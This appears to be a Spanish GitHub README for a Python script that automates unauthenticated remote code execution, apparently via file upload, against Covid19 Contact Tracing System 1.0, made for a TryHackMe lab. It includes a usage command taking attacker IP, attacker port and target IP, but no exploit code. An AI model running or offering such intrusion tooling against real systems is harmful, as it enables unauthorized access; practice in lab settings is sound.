 # Covid19 Contact Tracing System 1.0 (Unauthenticated RCE)
Este es un exploit que use y mejoré para la máquina Lockdown de TryHackMe, te automatiza practicamente toda la intrusión mediante la subida de un fichero a la máquina. Para esto, obviamente la aplicación debe trabajar con el Contact Tracer, "Covid-19 Contact Tracing System 1.0".

## Motivos de la creación
* Practicar Python3 
* Hacer un script autopwn

## Instalación y uso
```bash 
$ git clone
$ cd Covid19-Contact-Tracing-System-1.0/
$ chmod +x covid19_contacttracer.py
$ python3 covid19_contacttracer.py <attacker-ip> <attacker-port> <target-ip>
```
## Créditos
**Exploit v1**: https://www.exploit-db.com/exploits/49604

**Nota:** si tienes propuestas para mejorar este script o cambiar cosas, hazmelas saber por favor... me ayudarías mucho ❤.
